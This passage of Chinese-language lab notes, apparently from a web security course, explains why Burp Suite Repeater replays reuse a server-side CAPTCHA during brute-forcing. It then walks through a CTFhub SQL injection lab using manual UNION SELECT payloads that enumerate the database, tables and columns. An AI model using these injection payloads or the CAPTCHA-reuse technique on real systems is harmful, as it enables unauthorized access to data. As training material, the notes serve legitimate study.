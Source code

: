 ![Alt text](image-37.png)
- 爆破成功


#### 验证码绕过（on server）实验中，为什么 burp 拦截开启的状态下，通过 Repeater 进行重放不会刷新验证码，关闭拦截后才会刷新验证码？
答：
- burp拦截开启的过程中，通过repeater进行重放，此时，并没有完成一次完整的请求响应，因此，验证码在这个过程中并没有销毁，重新生成，而是被重复使用
- 关闭拦截后，由于客户端发送的数据包经历了一次完整通信过程，原验证码被销毁，生成了新的验证码，因此，关闭拦截后会刷新新验证码

## 6. CTFhub：SQL 注入靶场
### 手工注入
```
-1' union all select 1,database()#
```
database:sqli
```
-1' union all select 1,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'sqli')#
```
table: flag
```
-1' union all select 1,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'flag')
```
column :flag